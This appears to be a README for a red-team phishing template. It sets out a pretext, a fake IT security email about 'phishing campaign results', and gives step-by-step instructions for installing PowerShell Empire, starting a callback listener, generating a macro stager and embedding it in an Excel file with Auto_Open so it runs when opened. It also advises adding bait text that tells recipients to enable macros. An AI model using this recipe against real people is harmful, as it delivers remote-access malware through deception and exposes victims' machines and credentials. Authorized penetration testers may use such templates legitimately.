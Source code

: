 # Phishing Awareness Training Email 

**Objective:** Shell

## Pretext: 
You are an IT Security Manager, or IT Admin who has reciently conducted a phishing awareness campaign against your company. You are asking users to read through the email for phishing awareness and to download and view the results of the phishing campaign. The excel document needs macros enabled to view the results

## To Change:
Create your own macros (Empire is easiest) to call back. 

## Creating a malicious Macros via Empire
1. Installing Empire
  * git clone git@github.com:PowerShellEmpire/Empire.git
  * ./setup/install.sh
2. Starting up a listener:
  * set host <listening host:port>
  * set whatever parameters you want on this, just type 'info'
  * 'execute'
3. Generating the Macro
  * usestager macro
  * set listener <listener number>
  * 'execute'
  * copy the output function
4. Inserting the macro
  * Open Excel > New Document > 'alt+F11' will get you to the macros
  * Double-clck on "This Workbook"
  * Paste in the macro function from Empire
  * Change the Sub call to 'Auto_Open()'
  * Add the line 'Dim str As String' to the top of the Debugging function call before the powershell call.
  * Go back to the spreadsheet and add in whatever content you want. I like to add in random strings and at the top say that macros needs enabled to view the content. Helps with the pretext.
